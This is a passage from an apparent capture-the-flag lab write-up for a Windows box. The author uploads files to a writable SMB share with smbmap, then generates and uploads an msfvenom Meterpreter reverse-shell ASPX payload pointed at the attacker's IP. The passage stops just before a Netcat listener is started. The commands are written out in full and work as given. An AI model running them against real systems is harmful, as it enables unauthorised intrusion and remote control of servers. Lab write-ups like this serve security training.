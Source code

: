 Let's see if we can get to the passwords.txt file:

![relevant-nt4wrksv](/assets/images/2021-02-28-22-32-49.png)

We can, let's try uploading a file via SMB and then see if we can get to that via the browser:

```text
root@kali:/home/kali/thm/relevant# echo "hello world from pencer.io" > test.txt

root@kali:/home/kali/thm/relevant# smbmap -u root -H 10.10.218.231 -r nt4wrksv --upload test.txt nt4wrksv/test.txt 
[+] Starting upload: test.txt (27 bytes)
[+] Upload complete.
```

File uploaded, now check we can get to it:

![relevant-upload](/assets/images/2021-02-28-22-41-49.png)

## Reverse Shell

That also works, let's see if we can get an aspx reverse shell working. Use MSFVenom to create our payload:

```text
root@kali:/home/kali/thm/relevant# msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.165.116 lport=1337 -f aspx -o revshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of aspx file: 1010424 bytes
Saved as: revshell.aspx
```

Upload via SMB:

```text
root@kali:/home/kali/thm/relevant# smbmap -u root -H 10.10.218.231 -r nt4wrksv --upload revshell.aspx nt4wrksv/revshell.aspx
[+] Starting upload: revshell.aspx (1010424 bytes)
[+] Upload complete.
```

Start Netcat listening to catch the shell:
